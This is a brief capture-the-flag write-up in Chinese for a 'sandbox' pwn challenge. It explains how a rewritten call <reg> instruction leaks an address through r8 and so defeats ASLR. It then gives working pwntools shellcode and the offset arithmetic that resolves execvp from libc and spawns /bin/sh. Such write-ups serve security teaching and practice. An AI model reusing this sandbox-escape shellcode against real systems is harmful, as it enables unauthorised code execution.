

# sandbox

一開始理解完 sandbox.c 的 code 後，可以看到 `syscall` 以及 `call <reg>`的 shellcode 會被取代成 `syscall_monitor` 以及`call_reg_monitor`。這邊就看到一個方式可以去破 ASLR，就是隨便 `call <reg>`讓他被取代成 `call_reg_monitor`，因為會使用`jmp_func`，所以可以看到 r8 的暫存器會保存 `call_reg_monitor` 的 address，按照以下流程就可以做到 leak libc base address 並拿到 execvp：

* 拿到 `.text` 的 base address：`call_reg_monitor` 的 address - `call_reg_monitor` 的 offset
* 拿到 `read` 的 address: 透過 `.text` 的 base address + GOT offset
* 拿到 `libc` 的 base address: `read` 的 address - `read` 的 offset
* 拿到 `execvp`:  `libc` 的 base address + `execvp` 的 offset

我使用的 payload 如下：

```python
sc = asm(f"""
call rcx
add r8, 11310
mov rcx, [r8]

sub rcx, 174336
mov qword ptr [rsp], rcx

mov rdx, 0x68732f6e69622f <-- /bin/sh
mov qword ptr [rsp+8], rdx

lea rdi, [rsp+8]
mov rsi, 0
mov rdx, 0
ret
""")
```


```
r8 - (0x137a - 0x1000) + 0x114b - 0x1000 + 0x2e5d = r8 + 11310
```





```
libc_base = read_addr - (0x111130 - 0x25000)
execvp = libc_base + (0xe6830 - 0x25000) = read_addr - 174336
```